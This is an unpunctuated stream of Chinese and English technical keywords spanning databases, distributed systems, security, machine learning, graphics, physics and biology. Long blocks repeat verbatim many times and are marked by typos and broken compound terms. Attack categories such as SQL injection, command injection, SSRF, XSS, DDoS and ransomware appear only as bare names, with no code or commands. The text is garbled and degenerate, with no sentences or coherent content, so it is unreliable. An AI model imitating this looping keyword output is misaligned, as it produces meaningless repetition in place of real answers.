NoSQLNewSqlPolyglotORM 框架持久层抽象实体映射关系查询语言存储过程事务隔离级别并发控制死锁检测优化索引构建分表分库读写分离主从切换故障转移在线迁移蓝绿部署金丝雀发布滚动更新特性开关灰度放量压测扩容缩容日志审计安全扫描漏洞修复补丁升级依赖管理许可证合规开源协议软件供应链攻击面缩减最小权限原则纵深防御零信任架构身份认证单点登录多因素认证 OAuth2 OIDC SAML Kerberos LDAP 集成目录服务邮箱系统集成即时通讯工具协作平台文档管理系统知识库系统工作流引擎表单构建器低代码开发平台无头浏览器自动化测试性能压测混沌工程故障注入依赖分析包升级冲突解决版本号语义化命名规范模块导出导入循环引用作用域提升变量 hoistingconst let var scope closure 高阶函数柯里组合偏函数部分应用惰性求值响应式编程事件驱动异步回调 Promisefuturesasyncawait 并发控制并行处理线程池进程管理内存泄漏检测堆栈溢出防止信号捕获系统调用接口底层 API 扩展库第三方模块私有组件公共依赖内部服务网关代理过滤器中间件异常拦截日志过滤请求限流频率限制防重放攻击 CSRFXSS 防御 CORS 策略 HTTPS/TLS 证书吊销链验证 DNS 污染防火墙 IDSIPSWAFIAuditTrailSIEMSOARMTTMQTTHTTP/2 HTTP/3QUICWebSocketgRPCMicroservicesEvent-driven messagingPubSubPatternCommand-Query Responsibility segregation(CQRS) Event sourcingSaga patternOutbox PatternTransactional OutboxCDC change data captureETLPipelineOperatorData LakehouseLake to cloud 迁移上云混合多云架构私有云边缘计算雾计算区块链分布式账本智能合约数字孪生元宇宙游戏开发虚拟现实增强现实扩展内容识别渲染引擎物理模拟路径追踪光线反射折射阴影遮挡剔除 LOD 材质贴图法线凹凸置换光照烘焙体积云雾天气系统昼夜循环日夜交替四季变换植被生长腐烂生命周期管理 AI 驱动 NPC 行为决策树状态机有限自动机粒子系统网格生成纹理合成骨骼绑定蒙皮变形动画曲线关键帧插值样条曲线贝塞尔曲面 NURBS 建模程序化几何体参数化设计装配约束干涉检查碰撞检测刚体动力学柔体力学布料模拟烟火效果流体仿真容积云雨滴大小分布蒸发降水过程雷电形成闪电定位雷暴预警地质灾害监测地震波传播火山喷发预测海啸波浪模型洋流环流海图导航 AIS 定位雷达扫描声纳探测卫星遥感地理信息系统 GIS 地图叠加图层投影转换坐标系统经纬度墨卡托高斯 - 克吕格 UTMWeb  MercatorWGS84EPSG 代码格式文件类型二进制编码压缩算法差分隐私联邦学习知识图谱实体关系推理路径规划最短路径最小生成树网络流最大匹配二分图染色四色定理博弈论 Nash 均衡零和正和合作者背叛囚徒困境纳什均衡帕累托最优社会福利函数效用理论期望值方差标准差协方相关系数回归分析主成分分析因子分析聚类分组层次结构决策树随机森林梯度提升神经网络层结构激活函数反向传播动量调整学习率衰减正则化 dropoutBatch normalization 残差连接注意力机制 Transformer 架构自下而上自顶向下编码解码器多头关注掩码生成预训练微调迁移学习对抗样本可解释性热力图剪枝量化知识蒸馏模型压缩边缘侧推理端云协同隐私计算同态加密安全多方协议联邦学习差分隐私可信执行环境 TEE 机密计算去中心化身份 DID 通证经济激励机制共识证明工作量权益质押授权许可智能合约审计工具验证器节点矿工 validator staker 流动性挖矿 staking 治理代币空投钓鱼攻击勒索软件 APT 组织零日漏洞供应链污染侧信道攻击故障注入时序异常竞争条件竞态状态转换死锁饿死木桶效应羊群效蝴蝶效应破窗理论旁观者效应沉没成本损失厌恶风险偏好概率评估蒙特卡洛模拟贝叶斯推断马尔科夫链隐变量期望最大化算法高斯混合模型均值协方差矩阵特征值奇异值分解线性代数数值分析有限元方法差分法变分原理极小曲面测地线最短距离三角测量球面几何欧几里得非欧空间拓扑结构同胚异构连续光滑离散阶跃混沌运动自组织临界性相变临界点序参量自由度标度律无量纲化普适类重整群动态重正化量子隧穿隧道效应零点能真空衰变大爆炸奇点对称破缺霍金辐射黑洞熵信息论香农定理信道容量纠错编码汉明距离海明码巴利克密码算法 RSA 椭圆曲线 ECDHEDiffie-Hellman 随机数生成器伪随机真随机混沌映射梅森素数大整数分解格密码后量子加密量子密钥分发 BB84 协议 E91 实验贝尔不等式纠缠态薛定谔猫叠加态坍缩观测者效应多世界解释哥本哈根诠释隐变量理论局域性非定域性与非局域关联延迟选择思想图灵机通用计算 Church-Turing 论定理停机问题不可判定希尔伯特第十问题黎曼猜想波尔兹曼熵热力学第二定律开姆洛方程范德瓦尔气体状态方程理想气体温标绝对零度相态固液气等离子体超流体超导临界磁场约瑟夫森结量子点自旋电子学拓扑绝缘体态内能焓吉布斯自由能亥姆霍兹函数克劳修斯 - 克拉佩龙方程勒夏特列原理酸碱中和沉淀溶解平衡氧化还原电位电极电势标准氢电极参比溶液缓冲体系 pH 计指示剂电位滴定库仑定律电磁感应法拉第圆盘发电机变压器阻抗导纳矢量图谐振电路 LCRLC 振荡器滤波器低通高通带阻声优噪信噪比特频采样率奈奎斯特速率数字信号处理卷积脉冲响应傅里叶变换拉普拉斯 Z 传递函数极点零点最小相位非因果系统延迟环节滞后超前控制 PID 增益 K 积分常数 PD 控制器 PI 调节器自动导航 SLAM 激光雷达 LiDAR 视觉 SLAMORB-SLAMElastic Graph Factorization (EGF)稠密匹配特征跟踪光流法帧间差分背景减除运动目标检测语义分割实例计数物体识别 OCR 自然语言处理分词停止词去停用词 TF-IDFDNA 序列比对蛋白质折叠基因编辑 CRISPR-Cas9 表观遗传学甲基化转录因子启动子增强子剪接位点内含子外显子非编码区假基因印记 X 染色体失活中心粒线粒体叶绿体质膜内皮细胞基底膜毛细血管网淋巴系统造血干细胞分化增殖凋亡衰老端酶端粒长度癌症转移靶向治疗抗体药物偶联物 ADC 免疫检查抑制剂 PD-1/CTLA-4CAR-TTCR 工程化 T 细胞 NK 细胞激活剂疫苗载体腺病毒慢病毒质粒非编码 RNA microRNAsiRNALncARNCRFAMIRISCirculating tumor cell (CTC)循环肿瘤细胞外泌体液活检影像组学深度学习 MRI CT PETPET/CTfusion 注册配准分割重建后处理三维打印增材制造减材加工激光切割 3D 雕刻 CNC 机床 CAMCADCAECMSERPSCRMWFPaaSSaaSaas/Saassingle sign-onSSO MFA 多因素认证双因子认证生物特征识别虹膜指纹面部识别声纹步态行为分析情绪感知语音情感计算机器翻译自然语言生成 NLG 文本摘要命名实体抽取 NER 关系抽取 RE 语义角色标注 SRSemAnt 相似度词向量词义消歧句法分析依存解析语法错误纠正逻辑推理常识问答思维链 Chain-of-thought CoT 反事实思考 Counterfactual reasoning 多模态融合视觉 - 语言对齐图文匹配 VQA 视觉问答 OCR + NLP 手写体识别打印文本复原文档结构化表格理解表单填充知识图谱构建实体链接关系路径查询图嵌入 Graph Embedding 属性网络异构图推理元学习小样本 Zero-shot Few-shot 迁移通用 AI AGI 强人工智能弱机器意识测试图灵实验奇点技术奇点临近超智能失控对齐问题价值负载损失函数梯度下降反向传播动量优化 Adam SGD 批量归一化残差结构注意力机制 Transformer Encoder-Decoder Self-attention Cross attention Positional embedding Masked language modeling 预训练语言模型 LLM 大型通用模型多模态大模型具身机器人感知决策规划控制 SLAM 导航避障路径跟踪轨迹生成机械臂运动学动力学仿真逆解正解奇异点冗余自由度力控视觉伺服学习模仿编程代码补全自动测试自动化运维监控告警日志分析性能调优故障诊断根因定位资源调度服务网格 IstioEnvoy 代理 Sidecar 模式 GatewayAPI 负载均衡器限流熔断降热升级扩缩容高可用部署蓝绿灰发布滚动更新金丝雀特征开关多租户隔离虚拟专用网 VPN 零信任架构微分段防火墙威胁情报沙箱执行环境蜜罐诱捕红队对抗攻防模拟渗透测试漏洞扫描修复补丁管理密钥生命周期证书托管私钥公钥非对称加密数字签名哈希算法盐值存储彩虹表攻击暴力破解字典覆盖离线破解 Rainbow table hash 碰撞中间人窃听 DNS 劫持 CC AttackDDoS 反射放大 SYN Flood 慢速 SYN 洪水 UDP FloodICMP Flood 应用层 DDoS Botnet 僵尸网络挖矿程序暗网 TOR 混合网络 onion routing 多层代理匿名化去中心化身份 DID 自主权凭证可撤销性隐私保护最小权限零信任多租户隔离虚拟化容器编排服务网格 API 网关反向代理负载均衡熔断器限流器监控日志链路追踪分布式事务强一致性 CAP BASECPK 协议最终一致乐观锁悲观锁主从复制读写分离缓存穿透击穿雪崩失效本地存储内存溢出网络超时线程死锁竞态条件原子操作 CAS 自旋锁信号量互斥锁读写锁细粒度粗粒度隔离级别脏读不可重复写入幻读 MVCC 多版本并发控制行级列级分桶分区分片副本一致性冗余容错灾难恢复备份策略热备冷备异地归档对象存储块存储文件系统索引寻址 B+Tree 哈希表链表栈队列堆排序快速归并计数基数选择算法最近邻搜索范围查询模糊匹配字符串编辑距离 Levenshtein 相似度 Jaccard 余弦夹角 Pearson 相关皮尔逊协方克莱文斯顿判别式逻辑回归决策树随机森林支持向量机 SVM 核函数径向基多项式高斯神经网络层激活隐藏层权重偏置正则化 dropoutBatch normalization 残差连接跳跃连接多头注意力全局平均池化归一交叉熵软最大值 K-Means 聚类层次聚类 Gower 距离欧氏马氏海明曼哈顿切比雪夫特征工程 PCA LDA QDA 降维自动编码器生成对抗网络 GAN 风格迁移图像超分辨率生成预训练微调强化学习 Q-learning Sarsa policy gradient Actor-Critic RLHF 人类反馈对齐奖励函数探索利用 ε-greedy Softmax 温度系数马尔科夫链蒙特卡洛 MCMC 重要性采样迹类轨迹期望最大化 EMMixture GMM 隐狄利克雷主题模型 LDABERTRoBaLaDistilBertGPTOpenAIAdaGTP4ClaudeLlamaMistralPhiGeminiPerplexity 困惑度生成质量多样性一致性安全性幻觉抑制提示注入防御对抗样本鲁棒性可解释公平偏见消除数据漂移概念漂移领域自适应跨域迁移少样本零知识证明多方计算同态加密秘密共享可信执行环境 TEE 远程证明安全多方 MPC 差分隐私 k-匿名 l-diversity t-closurentrprise 级解决方案 SaaS PaaS IaaS 混合云私有部署开源替代商业闭源 APIRate limitingThrottling 降级熔断超时重试退避策略幂等性 idempotency 键分布式锁 RedisZookeeperEtcd 一致性哈希 Sharding 分片副本复制主从切换故障转移脑裂 Split-brain 共识算法 RaftPBFTPaxosQuorum 多数派阈值拜占庭容错 BFT 最终一致强一致 CAPBASETRAD 模型 ACIDCAPTHEOREM 两阶段提交三阶段提交 TCC 分布式事务 Saga 事件溯源 CQRSOutbox 模式延迟队列补偿机制消息确认 ACK 手动自动半自动持久化投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点直接消息推送通知实时流批处理 LambdaKappa 模型源端采集 CDCChange data capture 全量增量混合冷热分层压缩归档生命周期管理版本控制冲突解决合并策略乐观悲观并发读写分离多主一从双写一致性最终强一致复制延迟感知局部全局可见性事务隔离级别快照 MVCCWAL 重做日志 undo 回滚保存点检查点预分配自适应哈希分区列存储行存文档图对象键值时序关系搜索全文检索倒排索引正向反向分词中英文标点空白数字日期正则表达式通配符模糊匹配拼音首字母多音字纠正同义词扩展联想推荐召回排序点击率预估转化预测生命周期漏斗分析归因模型归因渠道参数 UTM 追踪像素 PixelJS 代码注入反射 XSSCSRFCookie HijackingSession FixationSQL InjectionNoSQL injectionCommand InjectionFile Upload SSRFDirective MisconfigurationServer Side IncludeHeaderInjectionOpen RedirectPath TraversalInsecure CookiesXSS StoredReflectedDOM 型混合跨域同源策略 CORSJSONPXMLHttp 对象 Fetch APIWeb WorkersService Worker 离线存储 AppCacheStorage quota 限制异步等待 Promiseasync/awaittry-catch 错误处理边界情况空指针数组溢出栈帧回溯调试断点步进表达式求值原型链继承组合类构造函数工厂单例观察者模型发布订阅命令模式责任链条式状态机解释器编译器静态动态类型强弱隐式显式自动手动垃圾回收标记清除复制分代停顿整理算法新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计数循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理时间 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGB CMYK HSV LAB 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧插值样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何纹理光照阴影反射折射全局区域光源环境光遮蔽 SSAOMRTAOcclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线 Levels 遮片阈值调色 HSL RGBCMYKACSGRAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识证明后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaS PaaSaas 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAP BASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undo 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶段补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undo 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐式显示自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHLA 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAOMRTAOcclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAP BASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undo 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶段补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undo 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐式显示自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHLA 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAOMRTAOcclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undo 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHTMLA 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOcclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undo 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHTMLA 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOcclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undo 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHTMLA 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOcclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undo 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHTMLA 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOcclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undo 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHTMLA 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOcclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undo 